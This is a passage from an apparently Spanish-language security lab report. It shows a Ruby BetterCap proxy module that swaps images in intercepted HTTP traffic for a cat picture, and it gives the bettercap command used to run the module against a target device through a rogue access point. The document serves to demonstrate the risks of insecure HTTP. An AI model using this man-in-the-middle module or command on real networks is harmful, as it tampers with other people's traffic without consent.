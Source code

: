 \begin{lstlisting}[language=ruby,basicstyle=\ttfamily\color{white},commentstyle=\ttfamily\color{gray},keywordstyle=\ttfamily\color{orange},stringstyle=\color{green}]
  # imageReplacer.rb

  # encoding: UTF-8
  # This proxy module will redirect all images to an image of our choice.

  class ImageReplacer < BetterCap::Proxy::HTTP::Module
    meta(
      'Name'        => 'Pwnd',
      'Description' => 'This proxy module will redirect the target(s) images requests to an image of our choice.',
      'Version'     => '1.0.0',
      'Author'      => "Federico Martinez",
      'License'     => 'GPL3'
    )

    # Choosen image URL
    @@url = 'http://www.catster.com/wp-content/uploads/2017/08/A-fluffy-cat-looking-funny-surprised-or-concerned.jpg'

    def on_request( request, response )
      if response.content_type =~ /^image\/.*/ and !@@url.include?(request.host)
        BetterCap::Logger.info "[#{'REDIRECT'.green}] The requested image #{request.to_url} has been replaced! ..."
        response.redirect!(@@url)
      end
    end
  end
\end{lstlisting}
    
Básicamente, este plugin captura todas las requests HTTP que devuelven imágenes y la convierte en una imagen que nosotros especificamos. Pusimos 
a correr bettercap de la siguiente manera sobre la interfaz de nuestro rogue AP:

\begin{lstlisting}[style=base]
  $ bettercap -I wlan0 --proxy-module redirecttocat.rb -T 10.0.0.168 -G 10.0.0.1 --no-spoofing
\end{lstlisting}

Luego, utilizando aplicaciones como Spotify o Mercadolibre que utilizan requests HTTP inseguras para imágenes, pudimos obtener resultados como 
el siguiente al querer ver el carousel de imágenes de una publicación de mercadolibre:

